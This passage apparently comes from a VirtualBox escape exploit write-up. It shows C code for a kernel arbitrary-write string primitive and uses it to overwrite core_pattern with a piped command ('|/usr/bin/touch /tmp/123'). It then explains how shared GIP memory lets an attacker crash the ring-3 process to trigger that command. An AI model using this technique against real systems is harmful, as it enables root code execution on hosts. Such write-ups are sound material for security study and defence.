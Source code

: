 We can now try overwrite `core_pattern` with arbitrary write primitive. Here I create a `write_string` primitive so I can write string into arbitrary kernel address more conveniently:

```c
static void __attribute__((optimize("O0"))) write_string(int *inst, char *code, sll addr, char* string) {
    int i = 0, cnt = 0, written = 0; 
    size_t val = 0;
    int sz = strlen(string);
    for (i = 0 ; i < sz+1 ; i++) { // to strlen(data)+1 so null byte will be written as well
        val = val | (((size_t)string[i] & 0xff) << ( (i & 7) * 8 ));
        if( (i & 7) == 7 ) {
            arb_write(inst, code, (sll)(addr + (cnt*8)), val);
            cnt++;
            val = 0;
            written = 1;
        } else {
            written = 0;
        }
    }
    if(written == 0) { // need to write one last time
        arb_write(inst, code, (sll)(addr + (cnt*8)), val);
    }
}
```

Overwrite `core_pattern` in kernel:

```c
size_t core_pattern = kernel_base + 0x17770c0; 
write_string(inst, code, (sll)core_pattern, "|/usr/bin/touch /tmp/123");
```

After that, once we're able to crash VirtualBox in ring-3, we should be able to see a file `123` being created under `/tmp`. The problem now is how do we trigger a crash in ring-3 ?

### Triggering crash in ring-3 and get code execution

So in VirtualBox there're actually memories that are being mapped into both kernel space and user space. Such memory may have different virtual address in ring-0 and ring-3, but they both point to the same physical frame, so modifying the memory in ring-0 will affect the one in ring-3. If we can find such memory, and it has some pointers in it, we can modify those pointers in ring-0, and crash VirtualBox in ring-3 when it tries to access such pointer. ( We can't access the user space memory in ring-0 due to the SMAP protection, so we'll have to modify the one in kernel space ).

So how do we find such memory ? We can search "user space" in the source code of `vboxdrv`, which will give us some direction :

```c
// vboxhost/vboxdrv/SUPDrvGip.c
/**
 * Maps the GIP into userspace and/or get the physical address of the GIP.
 *
 * @returns IPRT status code.
 * @param   pSession        Session to which the GIP mapping should belong.
 * @param   ppGipR3         Where to store the address of the ring-3 mapping. (optional)
 * @param   pHCPhysGip      Where to store the physical address. (optional)
 *
 * @remark  There is no reference counting on the mapping, so one call to this function
 *          count globally as one reference. One call to SUPR0GipUnmap() is will unmap GIP
 *          and remove the session as a GIP user.
 */
SUPR0DECL(int) SUPR0GipMap(PSUPDRVSESSION pSession, PRTR3PTR ppGipR3, PRTHCPHYS pHCPhysGip) {
    // ...............omitted............................
    rc = RTR0MemObjMapUser(&pSession->GipMapObjR3, pDevExt->GipMemObj, (RTR3PTR)-1, 0, RTMEM_PROT_READ, NIL_RTR0PROCESS);
    // ...............omitted............................
```
